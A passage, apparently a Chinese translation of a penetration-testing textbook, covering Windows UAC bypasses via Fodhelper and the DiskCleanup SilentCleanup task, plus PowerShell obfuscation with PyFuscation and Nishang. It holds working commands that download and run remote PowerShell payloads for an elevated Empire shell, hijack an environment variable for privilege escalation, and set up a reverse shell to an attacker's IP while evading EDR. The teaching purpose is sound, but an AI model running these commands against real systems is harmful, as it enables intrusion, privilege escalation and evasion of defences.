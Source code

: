 1.  通过运行 `sudo service apache2 start` 在 Kali Linux 上启动 `apache2` 服务

1.  将漏洞利用文件复制到相关的 HTML 文件夹，`cp FodhelperBypass.ps1 /var/www/html/anyfolder/`，然后使用以下命令运行：

    ```
    Powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1') FodhelperBypass -program 'cmd.exe /c Powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/agent.ps1')" 
    ```

上述脚本将打开一个新的 Empire PowerShell shell，并以高权限运行。我们将在 *第十章*，*利用* 中详细探讨如何使用 PowerShell Empire。

### 使用磁盘清理绕过 Windows 10 中的 UAC

这种攻击方法涉及磁盘清理，这是 Windows 中的一个工具，旨在释放硬盘空间。Windows 10 上的默认计划任务揭示了一个名为 SilentCleanup 的任务，它以最高权限执行磁盘清理过程 `cleanmgr.exe`，即使是由无权限用户执行也会如此。该过程会在 `Temp` 目录中创建一个名为 `GUID` 的新文件夹，并将一个可执行文件和多个 DLL 文件复制到其中。

然后启动可执行文件，它会按特定顺序加载 DLL 文件，如 *图 9.28* 所示：

```
reg add hkcu\Environment /v windir /d "cmd /K reg delete hkcu\Environment /v windir /f && REM"
schtasks /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I 
```

![](img/B17765_09_28.png)

图 9.28：利用 DiskCleanUP 漏洞提升权限

尽管 Microsoft Defender 提供了实时监控，但该漏洞利用可能在设备上多次运行时仍然有效。

## 混淆 PowerShell 并使用无文件技术

近期端点安全防御机制和基于 EDR 的实时监控对现有攻击工具造成了很多限制。然而，总是有新的方法可以绕过它们。在本节中，我们将探讨如何混淆一个已知的 PowerShell 有效载荷，并获取一个远程 shell 给攻击者。

我们将利用`PyFuscation`工具。这个工具是用 Python 3 编写的，能够替换给定 PowerShell 脚本中的所有函数名、变量和参数。可以通过运行以下命令从 Git 仓库直接克隆：

```
sudo git clone https://github.com/CBHue/PyFuscation 
cd PyFuscation 
sudo python3 PyFuscation.py 
```

这样就准备好混淆器了。接下来，我们将使用 Nishang PowerShell 脚本来混淆有效载荷。可以通过运行 `sudo git clone https://github.com/samratashok/nishang` 从 Git 仓库克隆这些脚本，然后从相同的文件夹中，`cd nishang/Shells`，将 `Invoke-PowerShellTcp –Reverse –IPAddress <yourKaliIP> -Port 443` 添加到 `Invoke-PowerShellTcp.ps1` 脚本内容中并保存文件（该文件位于 `nishang/shells` 文件夹中）。编辑后的代码片段如 *图 9.29* 所示：

